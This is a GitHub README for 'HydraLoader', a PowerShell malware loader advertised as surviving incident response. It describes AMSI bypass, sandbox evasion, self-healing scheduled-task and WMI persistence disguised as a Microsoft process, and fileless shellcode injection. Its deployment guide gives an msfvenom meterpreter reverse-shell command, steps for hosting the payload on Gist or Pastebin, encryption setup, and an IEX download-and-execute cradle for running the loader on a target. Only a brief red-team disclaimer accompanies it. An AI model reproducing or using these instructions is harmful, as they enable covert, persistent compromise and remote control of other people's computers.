 <p align="center">
  <img src="https://imgur.com/gallery/hydraloader-5wYGBco#e8FJfgA"  width="200"/>
</p>
<h1 align="center">
  <br>
  🐍 HydraLoader 🛡️
  <br>
</h1>

<h4 align="center">The process that refuses to die. A PowerShell loader built on a self-healing persistence engine, designed to survive and thrive even under active incident response.</h4>

<p align="center">
  <a href="https://github.com/ZeroEthical/HydraLoader/blob/main/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-blue.svg?style=for-the-badge" alt="License">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Language-PowerShell-blue.svg?style=for-the-badge&logo=powershell" alt="Language">
  </a>
    <a href="https://github.com/ZeroEthical">
    <img src="https://img.shields.io/badge/Author-ZeroEthical-purple?style=for-the-badge" alt="Author">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Maintained%3F-Yes-green.svg?style=for-the-badge" alt="Maintained">
  </a>
</p>

<p align="center">
  <a href="#-about-the-project">About</a> •
  <a href="#-key-features">Key Features</a> •
  <a href="#-architecture--flow">Architecture</a> •
  <a href="#-getting-started">Getting Started</a> •
  <a href="#-disclaimer">Disclaimer</a> •
  <a href="#-author">Author</a>
</p>

---

## 📖 About The Project

**HydraLoader** is a highly sophisticated and resilient PowerShell-based payload execution framework, designed for advanced penetration testing and red teaming operations. It employs a multi-layered approach to evasion, persistence, and in-memory execution, aiming to operate undetected in modern, highly monitored environments.

---

## ✨ Key Features

<details>
<summary>🧠 <strong>Evasion & Anti-Analysis</strong></summary>
<br>

-   **In-Memory AMSI Bypass**: Dynamically patches the Antimalware Scan Interface (AMSI) at runtime to neutralize script-based threat detection.
-   **Comprehensive Environment Checks**: Actively detects and evades analysis environments by checking for:
    -   **Debuggers**: Uses native `IsDebuggerPresent()` API calls.
    -   **Sandboxes**: Verifies system RAM, CPU core count, and uptime.
    -   **Analysis Tools**: Scans for common virtualization and analysis processes (e.g., Wireshark, Process Monitor, VMware/VirtualBox tools).
-   **Deep Obfuscation**: The entire script is heavily obfuscated, with critical strings (API functions, DLLs) Base64 encoded and a compacted code structure to deter static analysis.
</details>

<details>
<summary>🐍 <strong>The "Hydra" Persistence Engine</strong></summary>
<br>

HydraLoader employs a dual-headed, self-healing persistence mechanism to ensure long-term access and resilience against removal attempts.

-   **Method 1: Scheduled Task (Elevated Privileges)**: Creates a scheduled task disguised as a legitimate system process (`Microsoft Compatibility Appraiser`) that runs with `SYSTEM` privileges at logon.
-   **Method 2: WMI Event Subscription (Maximum Stealth)**: Establishes a permanent WMI event subscription that triggers on a timer. This method is extremely difficult to detect as it resides in the WMI repository, outside of standard auto-run locations.
-   **Self-Healing Capability**: On each execution, the framework checks if both persistence mechanisms are active. If one has been discovered and removed, the other automatically recreates it, ensuring the "Hydra" survives.
</details>

<details>
<summary>🚀 <strong>Payload Execution</strong></summary>
<br>

-   **"Fileless" In-Memory Operation**: The payload is downloaded directly into a memory buffer, decoded, and executed without ever touching the disk, minimizing the forensic footprint.
-   **AES-256 Decryption Framework**: Includes a function to decrypt payloads using AES-256 (CBC). This allows the payload to be stored and transmitted in an encrypted state, rendering it useless to network inspection tools. *(Note: Requires a pre-encrypted payload)*.
-   **Dynamic API Resolution**: Resolves all necessary Windows API functions dynamically at runtime, avoiding suspicious static import tables.
</details>

---

## ⚙️ Architecture & Flow

1.  **Initialization**: The AMSI bypass is executed instantly.
2.  **Evasion Checks**: The script performs all anti-analysis and anti-sandbox checks. If any fail, it terminates silently.
3.  **Persistence Check & Repair**: The Hydra engine verifies that both the Scheduled Task and WMI Subscription are in place. If not, it creates them.
4.  **Payload Delivery**: The framework downloads the payload from the configured URL directly into memory.
5.  **Decryption & Preparation**: The payload is Base64 decoded. If AES is enabled, it is then decrypted.
6.  **Execution**: The final payload is injected into memory and executed via stealthy Windows API calls.

---

## 🚀 How to Use This Beast 😏

This guide will walk you through preparing your payload, configuring HydraLoader, and deploying it on a target system.

### Step 1: Payload Preparation (Example with `msfvenom`)

First, you need to generate your shellcode. For this example, we'll create a simple reverse shell payload.

1.  **Generate Raw Shellcode**:
    Use a tool like Metasploit's `msfvenom` to create the raw shellcode.

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o shellcode.bin
    ```
    > Replace `YOUR_IP` and `YOUR_PORT` with your listener's details.

2.  **Encode the Shellcode in Base64**:
    HydraLoader expects the payload to be Base64 encoded.

    ```powershell
    # In PowerShell
    $bytes = [System.IO.File]::ReadAllBytes("C:\path\to\shellcode.bin")
    [System.Convert]::ToBase64String($bytes) | Out-File shellcode_b64.txt
    ```
    > Copy the resulting Base64 string. You'll need it in the next step.

### Step 2: Host Your Payload

1.  **Host the Base64 Payload**:
    Paste the Base64 string you just copied into a file (e.g., `payload.txt`) and host it on a web server or a service like GitHub Gist, Pastebin, etc.
2.  **Get the Raw URL**:
    Make sure you have a direct, raw link to the file content. For example, a GitHub Gist raw URL looks like `https://gist.githubusercontent.com/user/gist_id/raw/payload.txt`.

### Step 3: Configure HydraLoader

Now, you need to configure the `MALWARE DECODED.ps1` script itself.

1.  **Update the Payload URL**:
    -   Find the `$cfg` hashtable at the beginning of the script.
    -   Locate the key `$cfg.o`. This holds the Base64 encoded URL of your payload.
    -   First, encode your raw payload URL in Base64:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("https://your-raw-payload-url.com/payload.txt"))
        ```
    -   Replace the existing value of `$cfg.o` with your new Base64 encoded URL.

### Step 4: (Optional) Configure AES Encryption for Maximum Stealth

If you want to add another layer of protection, you can encrypt your payload.

1.  **Generate a Key and IV**:
    You need a 32-byte (256-bit) key and a 16-byte (128-bit) IV. You can generate them in PowerShell:
    ```powershell
    # Generate a random 32-byte key
    $key = -join ((0..31) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })
    # Generate a random 16-byte IV
    $iv = -join ((0..15) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })

    Write-Host "Key: $key"
    Write-Host "IV: $iv"
    ```

2.  **Encrypt the Shellcode**:
    Use your favorite encryption script or tool (like CyberChef) with your generated Key and IV to encrypt your **raw** shellcode file (`shellcode.bin`). Then, Base64 encode the **encrypted** output.

3.  **Configure HydraLoader with Keys**:
    -   Base64 encode your Key and IV:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_32_BYTE_KEY_HERE"))
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_16_BYTE_IV_HERE"))
        ```
    -   Update `$cfg.r` (key) and `$cfg.s` (IV) in the script with these new Base64 values.

4.  **Activate Decryption in Script**:
    -   In the `MALWARE DECODED.ps1` script, find the payload handling section.
    -   Uncomment the three lines responsible for decryption:
        ```powershell
        # $k = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.r)); $iv = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.s))
        # $exec_buf = Expand-Stream -d $buf -k $k -iv $iv; if (-not $exec_buf) { exit }
        ```
        And comment out the line that bypasses it:
        ```powershell
        # $exec_buf = $buf
        ```

### Step 5: Deployment

With your payload prepared and HydraLoader configured, you're ready for deployment.

1.  **Set Up Your Listener**:
    Start your C2 listener (e.g., Metasploit's `multi/handler`) to catch the incoming connection.

2.  **Execute on Target**:
    Deliver and execute the `MALWARE DECODED.ps1` script on the target machine. You can use any standard execution method:
    ```powershell
    # Example: Direct execution
    powershell.exe -ExecutionPolicy Bypass -File ".\MALWARE DECODED.ps1"

    # Example: Remote download and execution (IEX cradle)
    powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://your-server/MALWARE%20DECODED.ps1')"
    ```
    On its first run, HydraLoader will set up its persistence mechanisms and then proceed with the payload execution. Subsequent runs will ensure persistence is maintained before executing the payload.

---

## ⚠️ Disclaimer

This tool is intended for authorized red teaming, security research, and educational purposes **only**. Unauthorized use of this framework against any system is illegal. The author assumes no liability and is not responsible for any misuse or damage caused by this program.

---

## 🙏 Acknowledgements

A special thanks to our friends in the Telegram community for providing the base code that inspired the creation of this project.

-   [@scarlettaowner](https://t.me/scarlettaowner)
-   [@viperzcrew](https://t.me/viperzcrew2)

---

## ✍️ Author

-   **ZeroEthical** - [GitHub](https://github.com/ZeroEthical) [Telegram](https://t.me/ZeroEthical)
-   
